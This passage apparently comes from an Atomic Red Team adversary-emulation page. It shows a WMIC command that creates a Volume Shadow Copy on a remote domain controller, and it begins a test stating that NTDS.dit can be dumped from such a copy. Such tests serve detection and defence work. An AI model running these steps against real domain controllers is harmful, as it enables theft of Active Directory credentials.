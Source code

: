 **Supported Platforms:** Windows


**auto_generated_guid:** d893459f-71f0-484d-9808-ec83b2b64226





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| drive_letter | Drive letter to source VSC (including colon and backslash) | String | C:&#92;|
| target_host | IP Address / Hostname you want to target | String | localhost|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
wmic /node:"#{target_host}" shadowcopy call create Volume=#{drive_letter}
```




#### Dependencies:  Run with `command_prompt`!
##### Description: Target must be a reachable Domain Controller, and current context must be domain admin
##### Check Prereq Commands:
```cmd
wmic /node:"#{target_host}" shadowcopy list brief
```
##### Get Prereq Commands:
```cmd
echo Sorry, can't connect to target host, check: network, firewall or permissions (must be admin on target)
```




<br/>
<br/>

## Atomic Test #6 - Create Volume Shadow Copy with Powershell
This test is intended to be run on a domain Controller.

The Active Directory database NTDS.dit may be dumped by copying it from a Volume Shadow Copy.

**Supported Platforms:** Windows


**auto_generated_guid:** 542bb97e-da53-436b-8e43-e0a7d31a6c24



